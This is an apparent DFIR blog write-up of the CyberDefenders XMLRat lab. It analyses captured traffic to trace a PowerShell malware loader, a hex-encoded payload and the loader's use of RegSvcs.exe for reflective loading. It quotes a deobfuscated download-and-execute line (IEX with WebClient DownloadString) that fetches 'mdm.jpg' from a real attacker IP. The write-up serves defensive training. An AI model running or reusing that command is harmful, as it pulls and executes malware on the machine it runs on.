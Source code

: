 ```yaml
---
layout: single
title: Cyberdefenders - XMLRat Lab
excerpt: Network traffic analysis to identify malware delivery and analyze execution malware techniques. 
date: 2025-06-24
classes: wide
header:
  teaser: ../assets/images/sherlock-bumbleebe/
  teaser_home_page: true
  icon: ../assets/images/logo-icon.svg
categories:
   - cyberdefenders
   - dfir
   - malware analysis
tags:
   - wireshark 
   - bash 
   - virustotal 
   - hash
---
```


For this lab we are provided with only a .pcap file, so we can quickly move on to the questions.

-----

<h3 style="color: #0d6efd;"> Q1. The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed? </h3>

The first step I took was to apply an http filter in Wireshark. I observed two downloads events in the results. By followiing the TCP stream for the first download, I obtained this output. 

![](../assets/images/cyber-xrat/1.png)

Deobfuscating the code with the help of GTP revealed the following behavior: 

```bash 
[BYTe[]];
$A123='IeX(NeW-OBJeCT NeT.W';
$B456='eBCLIeNT).DOWNLO';
[BYTe[]];
$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN' ,'ADSTRING');
[BYTe[]];
IeX($A123+$B456+$C789)
```

IEX(...) (short for Invoke-Expression) takes that downloaded text and executes it directly in memory, which is likely not a genuine JPG but rather a PowerShell script. 

-----

<h3 style="color: #0d6efd;"> Q2. Which hosting provider owns the associated IP address? </h3>

Applying a `whois` on the ip found in the previous question. 

```bash 
┌──(kali㉿kali)-[~/blue-labs/rat]
└─$ whois 45.126.209.4
% [whois.apnic.net]
% Whois data copyright terms    http://www.apnic.net/db/dbcopyright.html

% Information related to '45.126.208.0 - 45.126.211.255'

% Abuse contact for '45.126.208.0 - 45.126.211.255' is 'abuse@reliablesite.net'

inetnum:        45.126.208.0 - 45.126.211.255
netname:        RELIABLESITE-AP
descr:          ReliableSite.Net LLC
```

In the same way, we can identify the hosting provider with [this site](https://hostingchecker.com/)

-----

<h3 style="color: #0d6efd;"> Q3. By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable? </h3>

While analyzing `mdm.jpg` by following it's TCP stream in wireshark, we can see something that looks a obfuscated string, hexadecimal in this case. The variable with this sring is `$hexString_bbb`, and analyzing the code, this variable looks like a malicious payload which is reconstructed directly in memory rather than writing it to disk. 

![](../assets/images/cyber-xrat/2.png)

By copying that hex string into a file(e.g. payload.hex), removing all underscores(" _ "), converting the resulting plain hex into raw bytes, and then computing its sha256 hash. I used the following one-liner:

```bash 
tr -d '_' < payload.hex | xxd -r -p | sha256sum
```

-----

<h3 style="color: #0d6efd;"> Q4. What is the malware family label based on Alibaba? </h3>

By copying the hash obtained in the previous question and submitting it to VirusTotal, we can answer the question.

![](../assets/images/cyber-xrat)

----

<h3 style="color: #0d6efd;"> Q5. What is the timestamp of the malware's creation? </h3>

By reviewing the Details section in the VirusTotal report, we can gather more information about the file.

-----

<h3 style="color: #0d6efd;"> Q6. Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path. </h3>

By reviewing the TPC stream I can see the following: 

![](../assets/images/cyber-xrat/4.png)

The malware leverages `RegSvcs.exe`, a legitimate Microsoft-signes utility located in `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe`. This executable is part of the .NET framework and is normally used to register .NET assemblies as COM+ applications. COM+ (Component Object Plus) is a Microsoft technology designed to manage object reuse(similar to DLLs), inter-process communication, transaction handling, and more. 

In this case, the malware does not exploit a vulnerability in `RegSvcs.exe`. Instead, it uses it as trusted host process to execute its payload reflectively in memory. Here's how it works: 

1. A hexadecimal-encoded payload ($hexString_pe) is parsed and converted into a raw byte array. 
2. This array is loaded into memory using `[Reflection.Assembly]::Load()`, producing an in-memory .NET assembly.

3. Within this assembly, the malware identifies and invokes a custom class(e.g., NewPE2.PE) and method(Execute). 
4. The `Execute` method-defined by the attacker inside the malicious assembly receives two arguments: 
 - A path to `RegSvcs.exe`
 - A second payload (e.g. `hexString_bbb`), also loaded as a byte array. 

The role of `RegSvcs.exe` in this context is to serve as a host process for executing the second-stage payload within a trusted enviroment. Because it is a signed, legitimate system binary, this helps the malware bypass traditional signature-based detection and reduces suspicious during runtime. 

This technique is know as `Reflecting Code Loading`, which is a technique were code—often a compiled executable or libary is loaded direcly into memory an execues, without ever being written to disk or formally registered with the operating system as a running process or module.

-----

<h3 style="color: #0d6efd;"> Q7. The script is designed to drop several files. List the names of the files dropped by the script. </h3>

By reviewing the analysis of `mdm.jpg` in VirusTotal: 

![](../assets/images/cyber-xrat/5.png)
